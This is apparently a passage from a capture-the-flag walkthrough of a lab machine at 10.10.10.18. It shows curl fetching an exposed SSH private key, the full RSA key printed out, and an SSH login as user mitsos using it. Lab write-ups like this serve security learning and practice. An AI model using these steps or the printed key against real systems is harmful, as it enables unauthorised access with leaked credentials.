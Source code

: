 Since the path says "my ssh key with name mitsos", try to ssh with the name and key.
{% highlight shell %}
root@kali:~# curl http://10.10.10.18/mysshkeywithnamemitsos > mitsos_key
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1679  100  1679    0     0  23000      0 --:--:-- --:--:-- --:--:-- 23000


root@kali:~# cat mitsos_key 
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqIkk7+JFhRPDbqA0D1ZB4HxS7Nn6GuEruDvTMS1EBZrUMa9r
upUZr2C4LVqd6+gm4WBDJj/CzAi+g9KxVGNAoT+Exqj0Z2a8Xpz7z42PmvK0Bgkk
3mwB6xmZBr968w9pznUio1GEf9i134x9g190yNa8XXdQ195cX6ysv1tPt/DXaYVq
OOheHpZZNZLTwh+aotEX34DnZLv97sdXZQ7km9qXMf7bqAuMop/ozavqz6ylzUHV
YKFPW3R7UwbEbkH+3GPf9IGOZSx710jTd1JV71t4avC5NNqHxUhZilni39jm/EXi
o1AC4ZKC1FqA/4YjQs4HtKv1AxwAFu7IYUeQ6QIDAQABAoIBAA79a7ieUnqcoGRF
gXvfuypBRIrmdFVRs7bGM2mLUiKBe+ATbyyAOHGd06PNDIC//D1Nd4t+XlARcwh8
g+MylLwCz0dwHZTY0WZE5iy2tZAdiB+FTq8twhnsA+1SuJfHxixjxLnr9TH9z2db
sootwlBesRBLHXilwWeNDyxR7cw5TauRBeXIzwG+pW8nBQt62/4ph/jNYabWZtji
jzSgHJIpmTO6OVERffcwK5TW/J5bHAys97OJVEQ7wc3rOVJS4I/PDFcteQKf9Mcb
+JHc6E2V2NHk00DPZmPEeqH9ylXsWRsirmpbMIZ/HTbnxJXKZJ8408p6Z+n/d8t5
gyoaRgECgYEA0oiSiVPb++auc5du9714TxLA5gpmaE9aaLNwEh4iLOS+Rtzp9jSp
b1auElzXPwACjKYpw709cNGV7bV8PPfBmtyNfHLeMTVf/E/jbRUO/000ZNznPnE7
SztdWk4UWPQx0lcSiShYymc1C/hvcgluKhdAi5m53MiPaNlmtORZ1sECgYEAzO61
apZQ0U629sx0OKn3YacY7bNQlXjl1bw5Lr0jkCIAGiquhUz2jpN7T+seTVPqHQbm
sClLuQ0vJEUAIcSUYOUbuqykdCbXSM3DqayNSiOSyk94Dzlh37Ah9xcCowKuBLnD
gl3dfVsRMNo0xppv4TUmq9//pe952MTf1z+7LCkCgYB2skMTo7DyC3OtfeI1UKBE
zIju6UwlYR/Syd/UhyKzdt+EKkbJ5ZTlTdRkS+2a+lF1pLUFQ2shcTh7RYffA7wm
qFQopsZ4reQI562MMYQ8EfYJK7ZAMSzB1J1kLYMxR7PTJ/4uUA4HRzrUHeQPQhvX
JTbhvfDY9kZMUc2jDN9NwQKBgQCI6VG6jAIiU/xYle9vi94CF6jH5WyI7+RdDwsE
9sezm4OF983wsKJoTo+rrODpuI5IJjwopO46C1zbVl3oMXUP5wDHjl+wWeKqeQ2n
ZehfB7UiBEWppiSFVR7b/Tt9vGSWM6Uyi5NWFGk/wghQRw1H4EKdwWECcyNsdts0
6xcZQQKBgQCB1C4QH0t6a7h5aAo/aZwJ+9JUSqsKat0E7ijmz2trYjsZPahPUsnm
+H9wn3Pf5kAt072/4N2LNuDzJeVVYiZUsDwGFDLiCbYyBVXgqtaVdHCfXwhWh1EN
pXoEbtCvgueAQmWpXVxaEiugA1eezU+bMiUmer1Qb/l1U9sNcW9DmA==
-----END RSA PRIVATE KEY-----


root@kali:~# chmod 600 mitsos_key 


root@kali:~# ssh mitsos@10.10.10.18 -i mitsos_key
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon Jun 10 13:49:27 EEST 2019

  System load: 0.0               Memory usage: 5%   Processes:       194
  Usage of /:  7.6% of 18.58GB   Swap usage:   0%   Users logged in: 0

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Thu Jan 18 10:29:40 2018
mitsos@LazyClown:~$
{% endhighlight %}
